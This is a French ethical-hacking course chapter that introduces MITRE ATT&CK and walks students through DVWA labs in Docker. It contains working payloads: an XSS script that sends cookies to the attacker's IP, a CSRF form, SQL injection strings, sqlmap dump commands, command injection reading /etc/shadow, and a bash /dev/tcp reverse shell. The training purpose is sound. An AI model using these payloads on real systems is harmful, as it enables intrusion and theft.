





# Chapitre 01 : Introduction au hacking éthique et aux vulnérabilités

---

## Objectifs pédagogiques

- Mettre en place l'intégralité de l'environnement de lab (Docker, Kali, outils)
- Comprendre le référentiel MITRE ATT&CK et savoir naviguer dans sa matrice
- Distinguer les profils d'attaquants et leurs motivations
- Cartographier les attaques courantes (phishing, DDoS, SQLi) aux techniques ATT&CK
- Prendre en main les outils fondamentaux : nmap, Metasploit, Wireshark
- Identifier et exploiter les failles web : XSS, CSRF, SQLi, command injection
- Lancer DVWA et réaliser un premier scan avec exploitation

---

# Partie 1 — Mise en place de l'environnement (1h30)

## A.1 Prérequis Kali — Vérification

Ouvrez un terminal sur votre machine Kali et exécutez chaque commande. Chaque ligne doit retourner un numéro de version, **pas d'erreur**.

```bash
python3 --version        # Doit afficher "Python 3.10" ou supérieur
pip --version            # Doit afficher "pip 22" ou supérieur
docker --version         # Doit afficher "Docker version 24" ou supérieur
docker compose version   # Doit afficher "Docker Compose version v2"
git --version            # Doit afficher "git version 2.39" ou supérieur
nmap --version           # Doit afficher "Nmap version 7.94"
msfconsole --version     # Doit afficher "Framework Version: 6.3"
sqlmap --version         # Doit afficher "1.7"
which nc                 # Doit afficher "/usr/bin/nc"
curl --version           # Doit afficher "curl 7.88"
```

Si un outil manque, installez-le :

```bash
sudo apt update
sudo apt install -y docker.io docker-compose-v2 git nmap metasploit-framework sqlmap netcat-openbsd curl
sudo usermod -aG docker $USER
# → Redémarrer la session pour que le groupe docker prenne effet
```

## A.2 Création de l'arborescence de travail

```bash
mkdir -p ~/cours-hacking/{jour-1,jour-2,jour-3,jour-4,jour-5,hors-serie}
mkdir -p ~/cours-hacking/jour-{1,2,3,4,5}/labs

cd ~/cours-hacking
git clone https://github.com/yugmerabtene/techniques-hacking-mdj.git repo
```

## A.3 Déterminer votre scénario

Avant de lancer les conteneurs, exécutez le script de diagnostic :

```bash
cd ~/cours-hacking/repo
bash scripts/network-diag.sh
```

Le script vous dira si vous êtes en :

- **Scénario A** — Kali en machine hôte (VM ou bare metal). Les cibles sont sur `localhost:<port>`.
- **Scénario B** — Kali dans un conteneur Docker. Les cibles sont accessibles par leur nom de service : `dvwa`, `vsftpd`, `buffovf`...

Gardez ce diagnostic sous les yeux pendant tous les labs.

## A.4 Lancement des conteneurs

```bash
cd ~/cours-hacking/repo

# Scénario A (Kali hôte) — lancer les cibles uniquement
docker compose up -d --build

# Scénario B (Kali Docker) — lancer tout y compris le Kali attaquant
docker compose --profile full up -d --build
```



## A.5 Vérification de chaque vulnérabilité

### Définir les variables selon votre scénario

```bash
# Exécutez ce bloc UNE FOIS au début de la session.
# Il définit $TARGET, $TARGET_PORT etc. pour tous les labs.

if [ -f /.dockerenv ]; then
    # ─── SCÉNARIO B — Kali dans Docker ───
    TARGET_DVWA="dvwa"
    TARGET_VSFTPD="vsftpd"
    TARGET_WAF="waf-target"
    TARGET_BUFFOVF="buffovf"
    TARGET_SECLINUX="secure-linux"
    TARGET_FORENSIC="forensic-victim"
    PORT_DVWA="80"
    PORT_VSFTPD="21"
    PORT_SMB="445"
    PORT_WAF="80"
    PORT_BUFFOVF="9001"
    PORT_SECLINUX="22"
    PORT_FORENSIC="80"
    echo "→ Scénario B : cibles par noms de service Docker"
else
    # ─── SCÉNARIO A — Kali en hôte ───
    TARGET_DVWA="localhost"
    TARGET_VSFTPD="localhost"
    TARGET_WAF="localhost"
    TARGET_BUFFOVF="localhost"
    TARGET_SECLINUX="localhost"
    TARGET_FORENSIC="localhost"
    PORT_DVWA="8080"
    PORT_VSFTPD="21"
    PORT_SMB="445"
    PORT_WAF="8081"
    PORT_BUFFOVF="9001"
    PORT_SECLINUX="2222"
    PORT_FORENSIC="8082"
    echo "→ Scénario A : cibles sur localhost"
fi

KALI_IP=$(hostname -I | awk '{print $1}')
echo "→ Kali IP : $KALI_IP"
echo "→ (utilisez cette IP pour les reverse shells et écouteurs HTTP)"
```

**Guarde ce terminal ouvert.** Toutes les commandes ci-dessous utilisent ces variables.

### ☐ DVWA — Application Web Vulnérable

```bash
# Le serveur répond ?
curl -I "http://${TARGET_DVWA}:${PORT_DVWA}/login.php"
# → HTTP/1.1 200 OK

# Ouvrir dans Firefox :
# Scénario A : firefox http://localhost:8080
# Scénario B : Les ports sont internes à Docker. Utilisez curl ou lynx dans le conteneur.
#              Ou exposez le port 8080 de kali-attacker dans docker-compose si vous voulez Firefox.

# Login DVWA : admin / password
# Puis en bas → DVWA Security → régler sur "low" → Submit
```

### ☐ vsftpd 2.3.4 — FTP Vulnérable

```bash
echo "" | nc -w2 "$TARGET_VSFTPD" "$PORT_VSFTPD"
# → 220 (vsFTPd 2.3.4)
```

### ☐ Samba 3.0.20 — SMB Vulnérable

```bash
nmap -sV -p "$PORT_SMB" "$TARGET_VSFTPD" | grep 445
# → 445/tcp open netbios-ssn Samba smbd 3.0.20
```

### ☐ Buffer Overflow

```bash
nc -z "$TARGET_BUFFOVF" "$PORT_BUFFOVF" && echo "OK" || echo "Non lancé"
# → OK
```

### ☐ WAF Target

```bash
# Requête normale → passe
curl -s -o /dev/null -w "%{http_code}" "http://${TARGET_WAF}:${PORT_WAF}/?id=1"
# → 200

# SQLi brute → bloquée
curl -s -o /dev/null -w "%{http_code}" "http://${TARGET_WAF}:${PORT_WAF}/?id=1%20OR%201=1"
# → 403 (Forbidden — WAF actif)
```

### ☐ Secure Linux

```bash
nc -z "$TARGET_SECLINUX" "$PORT_SECLINUX" && echo "SSH OK" || echo "Non lancé"
# → SSH OK
```

### ☐ Forensic Victim

```bash
curl "http://${TARGET_FORENSIC}:${PORT_FORENSIC}/?cmd=id"
# → uid=33(www-data) gid=33(www-data)
```

### ☐ Validation automatique

```bash
cd ~/cours-hacking/repo && bash tests/run_all.sh
# → ✓ Environnement prêt pour la formation !
```

---

# Partie 2 — Introduction au hacking éthique (4h30)

---

## Introduction

Toute démarche de sécurité — offensive comme défensive — commence par la compréhension du paysage des menaces. Avant de lancer un scan ou d'exploiter une faille, il est indispensable de disposer d'un **langage commun** pour décrire les comportements adverses.

Ce chapitre introduit le référentiel **MITRE ATT&CK**, qui sera votre boussole tout au long de cette formation. Chaque attaque, chaque vulnérabilité, chaque technique sera rattachée à une entrée de la matrice.

> **Sources :** [MITRE ATT&CK Framework](https://attack.mitre.org/) — The MITRE Corporation.

---

## 1. MITRE ATT&CK — Le référentiel universel



| Tactique (TA) | Techniques (T) | Exemple concret |
|---|---|---|
| TA0001 Reconnaissance | T1595 Active Scanning | nmap |
| TA0003 Initial Access | T1566 Phishing, T1190 Exploit Public-Facing App, T1189 Drive-by Compromise | Email, SQLi, XSS |
| TA0002 Execution | T1059 Command & Scripting Interpreter | Reverse shell, cmd injection |

> **Sources :** [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/) — MITRE.

---

## 2. Types de hackers et panorama des attaques



### Panorama des attaques — Mapping ATT&CK

| Attaque | Technique ATT&CK | ID | Tactic | Impact |
|---|---|---|---|---|
| Phishing | Spearphishing Attachment | T1566.001 | TA0003 Initial Access | Compromission de comptes |
| DDoS | Endpoint Denial of Service | T1499 | TA0014 Impact | Indisponibilité |
| Injection SQL | Exploit Public-Facing Application | T1190 | TA0003 Initial Access | Vol/exfiltration de données |
| XSS | Drive-by Compromise | T1189 | TA0003 Initial Access | Vol de session |
| CSRF | Exploitation for Client Execution | T1203 | TA0004 Execution | Actions non autorisées |

---

## 3. Outils de l'attaquant

### nmap — Cartographie réseau → T1046 Network Service Scanning

```bash
nmap -sV <IP>              # Scan avec version
nmap -F <IP>/24            # Scan rapide
nmap -A <IP>               # OS + version + scripts
nmap --script vuln <IP>    # Scan de vulnérabilités
```

### Metasploit — Framework d'exploitation

```bash
msfconsole                  # Lancer la console
search <mot-clé>            # Rechercher un exploit
use <chemin/exploit>        # Sélectionner
set RHOSTS <IP>             # Configurer la cible
exploit                     # Lancer
```

### Wireshark — Analyse de paquets → T1040 Network Sniffing

```
http                         # Trafic HTTP
tcp.port == 80               # Port 80
ip.addr == <IP>              # IP spécifique
tcp.flags.syn == 1           # Paquets SYN
```

> **Sources :** [nmap Book](https://nmap.org/book/). [Metasploit Unleashed](https://www.offensive-security.com/metasploit-unleashed/).

---

## 4. Vulnérabilités web — Mapping ATT&CK

### XSS → T1189 Drive-by Compromise



Reflected XSS : payload dans l'URL, reflété immédiatement.
Stored XSS : payload stocké en base, exécuté à chaque affichage.

```html
<!-- Payload de test -->
<script>alert('XSS')</script>

<!-- Payload de vol de cookie -->
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

### CSRF → T1203 Exploitation for Client Execution

```html
<html><body>
  <form action="http://<SITE>/change_password.php" method="POST">
    <input type="hidden" name="new_password" value="hacked">
    <input type="hidden" name="confirm_password" value="hacked">
  </form>
  <script>document.forms[0].submit();</script>
</body></html>
```

### Injection SQL → T1190 Exploit Public-Facing Application

```sql
-- Contournement d'authentification
admin' OR '1'='1' --

-- Extraction UNION-based
' UNION SELECT username, password FROM users --
```

### Command Injection → T1059.004 Unix Shell

```bash
; ls -la /etc/passwd
| whoami
&& cat /etc/shadow
```

> **Sources :** [OWASP Top 10](https://owasp.org/www-project-top-ten/) — OWASP Foundation.

---

## Lab 1.1 — Scan et découverte de DVWA

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Fichiers à créer** | `scan_dvwa.sh` |
| **Outils** | nmap, curl |

### Prérequis

- [x] Conteneurs lancés (`docker compose up -d`)
- [x] DVWA répond sur `http://${TARGET_DVWA}:${PORT_DVWA}/login.php`
- [x] Terminal ouvert dans `~/cours-hacking/jour-1/labs/`
- [x] Variables d'environnement chargées (voir A.5)

### Étape 1 — Scan nmap

```bash
cd ~/cours-hacking/jour-1/labs
nmap -sV -p "$PORT_DVWA" "$TARGET_DVWA" | tee nmap_dvwa.txt
```

Résultat attendu (Scénario A) :

```
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache httpd 2.4.X
```

Résultat attendu (Scénario B) :

```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.X
```

### Étape 2 — Découverte des pages avec gobuster

```bash
gobuster dir -u "http://${TARGET_DVWA}:${PORT_DVWA}" \
  -w /usr/share/wordlists/dirb/common.txt -q | tee gobuster_dvwa.txt
```

Résultat attendu (extrait) :

```
/.hta                 (Status: 403)
/config               (Status: 301)
/index.php            (Status: 302)
/login.php            (Status: 200)
/vulnerabilities      (Status: 301)
```

### Étape 3 — Accès DVWA

```bash
# Scénario A : Firefox
firefox "http://${TARGET_DVWA}:${PORT_DVWA}" &

# Scénario B : curl ou lynx dans le conteneur kali-attacker
# Connexion : admin / password
# Puis en bas de page → DVWA Security → régler sur "low" → Submit

# Vérifier que le login fonctionne via curl avec cookie
curl -s -c /tmp/dvwa_cookie.txt \
  -d "username=admin&password=password&Login=Login" \
  "http://${TARGET_DVWA}:${PORT_DVWA}/login.php" \
  | grep -o "Login failed\|Welcome"
# → Doit afficher "Welcome" = login réussi
```

### Checkpoints

- [ ] nmap trouve le port ouvert avec Apache
- [ ] gobuster trouve `/login.php`, `/vulnerabilities`, `/config`
- [ ] Connexion DVWA réussie (admin/password)
- [ ] Niveau de sécurité **low** configuré

---

## Lab 1.2 — Exploitation XSS (Reflected & Stored)

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Technique ATT&CK** | T1189 Drive-by Compromise |

### Prérequis

- [x] DVWA connecté, sécurité **low**
- [x] Cookie de session récupéré (depuis le navigateur ou le fichier `/tmp/dvwa_cookie.txt`)

### Étape 1 — XSS Reflété : test popup

Dans DVWA → **XSS (Reflected)**. Champ "What's your name?" :

```
<script>alert('XSS fonctionnel')</script>
```

Cliquer "Submit". **Checkpoint :** Popup JavaScript apparaît.

### Étape 2 — XSS Reflété : vol de cookie

**Terminal 1 — Kali (écouteur HTTP) :**

```bash
cd ~/cours-hacking/jour-1/labs
python3 -m http.server 8000
# Serving HTTP on 0.0.0.0 port 8000
```

**Terminal 2 — Payload dans DVWA :**

```html
<script>new Image().src='http://<KALI_IP>:8000/?cookie='+document.cookie</script>
```

**Remplacez `<KALI_IP>` par la vraie IP.** Pour la trouver :

```bash
# Connaître votre IP Kali
hostname -I | awk '{print $1}'

# Scénario A : si le conteneur DVWA ne peut pas joindre votre IP externe,
# utilisez l'IP du bridge Docker :
ip addr show docker0 | grep 'inet ' | awk '{print $2}' | cut -d/ -f1
# → généralement 172.17.0.1

# Scénario B : utilisez l'IP du conteneur Kali (hostname -I)
```

**Checkpoint :** Dans le terminal de l'écouteur, vous voyez :

```
<IP> - - [date] "GET /?cookie=PHPSESSID=abc123... HTTP/1.1" 200 -
```

Le cookie de session DVWA a été volé.

### Étape 3 — XSS Stocké : persistance

Dans DVWA → **XSS (Stored)** :

```
Champ "Name"    : Attaquant
Champ "Message" : <script>alert('Stored XSS')</script>
```

Cliquer "Sign Guestbook". **Checkpoint :** La popup apparaît. Actualisez la page : elle réapparaît. Stocké en base.

### Nettoyage

Dans DVWA → **Setup / Reset DB** → cliquer "Create / Reset Database" pour nettoyer le XSS stocké.

---

## Lab 1.3 — Injection SQL avec sqlmap

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Technique ATT&CK** | T1190 Exploit Public-Facing Application |

### Prérequis

- [x] DVWA connecté, sécurité **low**
- [x] Cookie PHPSESSID récupéré

**Comment obtenir le cookie :**

```bash
# Méthode 1 : via curl (si vous avez fait l'étape A.3)
cat /tmp/dvwa_cookie.txt | grep PHPSESSID

# Méthode 2 : via Firefox → F12 → Storage → Cookies → PHPSESSID
# Méthode 3 : via le vol XSS de l'étape précédente
```

### Étape 1 — Test manuel

```bash
curl -s -b "PHPSESSID=XXXX;security=low" \
  "http://${TARGET_DVWA}:${PORT_DVWA}/vulnerabilities/sqli/?id=1%27+OR+%271%27%3D%271%27+%23&Submit=Submit" \
  | grep -c "First name"
# → Doit retourner 5 (5 utilisateurs affichés au lieu d'1 seul)
```

**Checkpoint A :** La SQLi manuelle affiche 5 utilisateurs.

### Étape 2 — sqlmap : lister les bases

```bash
cd ~/cours-hacking/jour-1/labs

# Remplacez XXXX par votre PHPSESSID
sqlmap -u "http://${TARGET_DVWA}:${PORT_DVWA}/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  --dbs --batch 2>&1 | tee sqlmap_dbs.txt
```

Sortie attendue :

```
available databases [2]:
[*] dvwa
[*] information_schema
```

### Étape 3 — sqlmap : lister les tables

```bash
sqlmap -u "http://${TARGET_DVWA}:${PORT_DVWA}/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  -D dvwa --tables --batch
```

```
Database: dvwa
[2 tables]
+-----------+
| guestbook |
| users     |
+-----------+
```

### Étape 4 — sqlmap : dumper les utilisateurs

```bash
sqlmap -u "http://${TARGET_DVWA}:${PORT_DVWA}/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="PHPSESSID=XXXX;security=low" \
  -D dvwa -T users -C user,password --dump --batch
```

Sortie attendue :

```
+---------+---------------------------------------------+
| user    | password                                    |
+---------+---------------------------------------------+
| admin   | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
| gordonb | e99a18c428cb38d5f260853678922e03 (abc123)   |
| 1337    | 8d3533d75ae2c3966d7e0d4fcc69216b (charley)  |
| pablo   | 0d107d09f5bbe40cade3de5c71e9e9b7 (letmein)  |
| smithy  | 5f4dcc3b5aa765d61d8327deb882cf99 (password) |
+---------+---------------------------------------------+
```

**Checkpoint B :** 5 utilisateurs extraits avec leurs hashs MD5.

---

## Lab 1.4 — Command Injection + Reverse Shell

### 📋 Fiche de lab

| Propriété | Valeur |
|---|---|
| **Durée** | 30 min |
| **Conteneur** | `dvwa` |
| **Dossier de travail** | `~/cours-hacking/jour-1/labs/` |
| **Technique ATT&CK** | T1059.004 Unix Shell → TA0002 Execution |

### Prérequis

- [x] DVWA connecté, sécurité **low**
- [x] Un deuxième terminal Kali prêt pour l'écouteur netcat
- [x] Votre IP Kali identifiée (`echo $KALI_IP`)

### Étape 1 — Command injection basique

```bash
# Via curl (pratique en Scénario B sans navigateur)
curl -s -b "PHPSESSID=XXXX;security=low" \
  --data-urlencode "ip=127.0.0.1; ls /etc/&Submit=Submit" \
  "http://${TARGET_DVWA}:${PORT_DVWA}/vulnerabilities/exec/" \
  | head -30
```

Vous devez voir le contenu de `/etc/` après le résultat du ping.

Variantes à tester :

```
127.0.0.1; whoami              → www-data
127.0.0.1; cat /etc/passwd     → liste des utilisateurs
127.0.0.1; id                  → uid=33(www-data) gid=33(www-data)
```

### Étape 2 — Reverse shell

**Terminal 1 — Kali (écouteur) :**

```bash
nc -lvnp 4444
# Listening on 0.0.0.0 4444
```

**Terminal 2 — Envoyer le reverse shell via DVWA :**

```bash
# Remplacez <KALI_IP> par la vraie IP de votre Kali
# Scénario A : utiliser l'IP docker0 (172.17.0.1) car DVWA est dans Docker
# Scénario B : utiliser l'IP du conteneur kali-attacker

REVERSE_IP="172.17.0.1"  # Adapter selon votre scénario

curl -s -b "PHPSESSID=XXXX;security=low" \
  --data-urlencode "ip=127.0.0.1; bash -c 'bash -i >& /dev/tcp/${REVERSE_IP}/4444 0>&1'&Submit=Submit" \
  "http://${TARGET_DVWA}:${PORT_DVWA}/vulnerabilities/exec/"
```

**Checkpoint :** Dans le terminal 1, vous obtenez un shell :

```
Connection received on <IP>
bash: cannot set terminal process group
bash: no job control in this shell
www-data@<container_id>:/var/www/html/vulnerabilities/exec$
```

### Étape 3 — Dans le shell

```bash
whoami              # www-data
hostname            # ID du conteneur
pwd                 # /var/www/html/vulnerabilities/exec
ls -la /var/www/    # Explorer le serveur
```

### Résolution du problème d'IP pour le reverse shell



**Scénario A :** Pour le reverse shell depuis un conteneur Docker vers Kali hôte, utilisez l'IP du bridge Docker :

```bash
# Trouver l'IP docker0
REVERSE_IP=$(ip addr show docker0 2>/dev/null | grep 'inet ' | awk '{print $2}' | cut -d/ -f1)
echo "Reverse shell IP : $REVERSE_IP"
# → Typiquement 172.17.0.1
```

**Scénario B :** Les conteneurs sont sur le même réseau. Utilisez le nom de service :

```bash
REVERSE_IP="kali-attacker"
# ou
REVERSE_IP=$(hostname -I | awk '{print $1}')
```

---

## Exercices

### Exercice 1 : Première couche ATT&CK Navigator

**Énoncé :** Ouvrez https://mitre-attack.github.io/attack-navigator/ et créez une couche avec les 5 techniques vues aujourd'hui. Exportez le JSON dans `~/cours-hacking/jour-1/attack_layer_j1.json`.

<details>
<summary><strong>Solution</strong></summary>

1. Aller sur https://mitre-attack.github.io/attack-navigator/
2. "Create New Layer" → "Enterprise ATT&CK v15"
3. Rechercher et ajouter : T1046, T1189, T1190, T1059.004, T1203
4. Colorer : rouge = testé, bleu = à tester
5. "Download as JSON" → `~/cours-hacking/jour-1/attack_layer_j1.json`
</details>

### Exercice 2 : Mapping d'attaque réelle — WannaCry

**Énoncé :** WannaCry (2017) utilisait EternalBlue. Trouvez les techniques ATT&CK.

<details>
<summary><strong>Solution</strong></summary>

- EternalBlue (CVE-2017-0144) → T1210 Exploitation of Remote Services (TA0008)
- DoublePulsar → T1543.003 Windows Service (TA0003)
- Chiffrement → T1486 Data Encrypted for Impact (TA0014)
</details>

### Exercice 3 : Mini-rapport DVWA

**Énoncé :** Rédigez un mini-rapport (20 lignes) avec les 4 vulnérabilités exploitées, leur technique ATT&CK et leur remédiation.

<details>
<summary><strong>Solution</strong></summary>

```markdown
# Mini-Rapport DVWA — Jour 1

### 1. XSS Reflété
- ATT&CK : T1189 Drive-by Compromise
- Impact : Vol de cookie de session
- Remédiation : htmlspecialchars(), Content-Security-Policy

### 2. XSS Stocké
- ATT&CK : T1189
- Impact : Tous les visiteurs infectés
- Remédiation : Échappement HTML entrée + sortie

### 3. Injection SQL
- ATT&CK : T1190 Exploit Public-Facing Application
- Impact : Extraction complète de la base
- Remédiation : Requêtes préparées PDO

### 4. Command Injection
- ATT&CK : T1059.004 Unix Shell
- Impact : Exécution de code arbitraire
- Remédiation : escapeshellcmd(), liste blanche
```
</details>

---

## Points clés à retenir

- **MITRE ATT&CK** est votre référentiel : chaque attaque a un ID Txxxx
- Les 14 tactiques couvrent le cycle complet d'une cyberattaque
- XSS → T1189, SQLi → T1190, CSRF → T1203, CMDi → T1059.004
- nmap (T1046), Metasploit, Wireshark (T1040)
- DVWA permet de tester 4 familles de vulnérabilités web
- **Scénario A vs B** : adaptez vos cibles (`localhost:8080` vs `dvwa:80`)
- Pour les reverse shells depuis Docker vers Kali : utilisez l'IP du bridge `docker0`

## Pour aller plus loin

- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/)
- [ATT&CK Enterprise Matrix](https://attack.mitre.org/matrices/enterprise/)
- [DVWA GitHub](https://github.com/digininja/DVWA)
- [OWASP Top 10 (2021)](https://owasp.org/www-project-top-ten/)

---

*Chapitre suivant : [Jour 2 — Tests de pénétration](./JOUR-02.md)*
*Hors-Série Agentic : [KillChainAgent](./HORS-SERIE-AGENTIC.md)*
*Guide Environnement : [ENVIRONNEMENT.md](./ENVIRONNEMENT.md)*
